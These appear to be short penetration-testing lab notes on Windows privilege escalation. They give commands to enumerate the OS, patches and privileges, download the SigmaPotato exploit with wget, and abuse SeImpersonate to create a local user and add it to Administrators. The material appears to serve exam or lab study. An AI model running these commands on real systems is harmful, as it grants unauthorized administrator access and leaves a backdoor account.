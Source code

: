 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Enumerate windows version:
```
systeminfo
```

Enumerate security patches installed:
```
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

Enumerate privileges:
```
whoami /priv
```

The SeImpersonate priv enabled makes the machine vulnerable to potatoe attacks, like PrintSpoofer.

Get sigmapotatoe:
```
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```

Use SigmaPotatoe to add new user on target machien with PS:
```
.\SigmaPotato "net user dave4 password /add"
```
Add user to Administrators group:
```
.\SigmaPotato "net localgroup "Administrators" dave4 /add"
```
Check success:
```
net localgroup Administrators
```

